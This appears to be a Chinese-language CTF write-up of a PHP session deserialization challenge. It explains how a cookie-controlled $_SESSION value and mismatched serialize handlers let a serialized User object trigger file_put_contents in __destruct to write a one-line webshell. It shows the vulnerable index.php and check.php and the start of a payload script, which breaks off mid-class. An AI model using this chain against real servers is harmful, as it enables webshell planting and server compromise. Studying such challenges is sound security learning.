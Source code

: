 ```php
```

class类：拥有属性username, password, status

魔术方法 __destruct()：当实例被销毁时触发, 输出username, password, 登陆情况和时间，可利用file_put_contents函数写入一句话

利用session进行序列化执行User类的file_put_contents()函数写入一句话，得到flag

然后查看index.php文件

```php
<?php
    
	error_reporting(0);
	session_start();//开启了session回话
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
	
?>
```

在index.php里面开启了session回话，并且这里的$_SESSION的值我们可以控制。

我们就可以通过$_SESSION的值传递我们的payload入服务器的/tmp/sess_xxx生成我们构造的序列化payload。

然后查看check.php文件

```php
<?php
    
    error_reporting(0);
	require_once 'inc/inc.php';//利用点
    
?>
```

check.php里面最重要的就是require_once 'inc/inc.php'，我们就可以访问check.php进行执行我们构造好的payload
因为该文件包含了inc.php文件，而inc.php文件里面会根据ini_set('session.serialize_handler', 'php');的设置去读取/tmp/sess_xxxx文件里面的内容并且进行反序列化，执行file_put_contents()函数。

可以利用index.php里面的session_start()设置，控制$_SESSION的值（也就是limit）写入我们的payload到服务器的/tmp/sess_xxxx，然后利用inc.php里面的ini_set('session.serialize_handler', 'php')设置去反序列化服务器上的/tmp/sess_xxxx文件，从而执行inc.php里面User类的file_put_contents()函数写入一句话

构造payload

```php
<?php
error_reporting(0);
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
```